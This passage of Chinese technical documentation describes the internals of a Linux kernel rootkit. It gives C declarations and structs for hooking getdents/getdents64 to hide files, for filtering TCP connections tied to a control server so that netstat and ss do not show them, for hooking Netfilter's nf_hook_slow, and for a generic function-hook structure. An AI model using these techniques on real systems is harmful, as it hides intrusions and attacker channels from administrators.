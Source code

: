 **实现原理**: 使用内核链表管理需要隐藏的文件名，在目录读取时过滤这些文件。

#### 3.3.2 getdents系统调用拦截
```c
extern asmlinkage int __getdents(unsigned int fd, struct linux_dirent *dirp, unsigned int count);
extern asmlinkage int __getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);
```

**实现原理**: 钩子`getdents`和`getdents64`系统调用，在目录读取时过滤隐藏文件，使其在`ls`、`find`等命令中不可见。

### 3.4 网络连接隐藏

#### 3.4.1 TCP连接过滤
```c
typedef struct login_ctx_t
{
    unsigned int control_sip;      // 控制服务器IP地址
    unsigned short control_sport;  // 控制服务器端口
    unsigned short wport;          // 工作端口
    unsigned short tport;          // 目标端口
    int cnt;                       // 计数器
    int start;                     // 启动标志
    atomic_t usage;                // 使用计数
} LOGIN_CTX;
```

**实现原理**: 通过钩子网络栈函数，过滤特定的TCP连接，使其在`netstat`、`ss`等网络工具中不可见。

#### 3.4.2 网络包处理钩子
```c
// 内核版本兼容性处理：nf_hook_slow函数声明
#if LINUX_VERSION_CODE > KERNEL_VERSION(4, 12, 0)
extern int ptr_hook_slow(struct sk_buff *skb, struct nf_hook_state *state, const struct nf_hook_entries *e, unsigned int s);
#elif LINUX_VERSION_CODE >= KERNEL_VERSION(3, 10, 0)
extern int ptr_hook_slow(struct sk_buff *skb, struct nf_hook_state *state);
#endif
```

**实现原理**: 钩子Netfilter框架的`nf_hook_slow`函数，在网络包处理过程中拦截和过滤特定连接。

### 3.5 钩子机制实现

#### 3.5.1 钩子结构体定义
```c
typedef struct
{
    char *name;           // 目标函数名称
    void *stub_bak;      // 原始函数备份
    void *handler;        // 钩子处理函数地址
    int length;           // 目标函数指令长度
    void *target;         // 目标函数地址
    void *target_map;     // 目标函数读写映射
    atomic_t usage;       // 使用计数
} hook_t;
```
